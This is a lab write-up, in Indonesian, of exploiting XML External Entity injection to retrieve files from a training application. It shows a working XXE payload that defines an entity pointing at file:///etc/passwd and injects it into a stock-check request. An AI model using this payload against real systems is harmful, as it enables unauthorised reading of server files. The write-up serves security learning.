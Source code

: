 # Write-Up: XXE Injection - Lab Retrieve Files

## Informasi Lab

*   **Nama Lab**: Exploiting XXE using external entities to retrieve files
*   **Tingkat** : Practicioner
*   **Vulnerability**: XML External Entity (XXE) Injection

## Analisis Kerentanan

Aplikasi memproses input data dari pengguna dalam format XML. Kerentanan muncul ketika parser XML di sisi server dikonfigurasi untuk mengizinkan entitas eksternal. Hal ini memungkinkan penyerang untuk mendefinisikan entitas yang mengacu pada sebuah file di sistem server.

## Langkah-Langkah Eksploitasi

**Suntikkan Payload XML**:
    *   Modifikasi data XML di Burp Suite dengan menyisipkan deklarasi `DOCTYPE` dan `ENTITY` di antara deklarasi XML dan elemen root `<stockCheck>`.
    *   **Payload yang disuntikkan**:
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

**Panggil Entitas**:
    *   Setelah entitas `xxe` didefinisikan, panggil entitas tersebut di dalam elemen `<productId>` dengan mengubah nilainya menjadi `&xxe;`.

**Payload XML Lanjutan**:
    *   Berikut adalah isi XML lengkap yang diubah:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <stockCheck>
          <productId>&xxe;</productId>
          <storeId>1</storeId>
        </stockCheck>
        ```

## Bukti
<img width="1243" height="658" alt="image" src="https://github.com/user-attachments/assets/cbc148c3-5d3e-437f-8d8d-5198a8aff73e" />

<img width="1243" height="626" alt="image" src="https://github.com/user-attachments/assets/4cfb8637-db7a-45a4-ab49-8f4b8a0a13eb" />

<img width="1262" height="571" alt="image" src="https://github.com/user-attachments/assets/a0fa5c5c-49f8-425a-9786-c27560e0b9eb" />

<img width="1235" height="688" alt="image" src="https://github.com/user-attachments/assets/f1c56973-5f1b-4a35-b48d-b3c053d71681" />



        

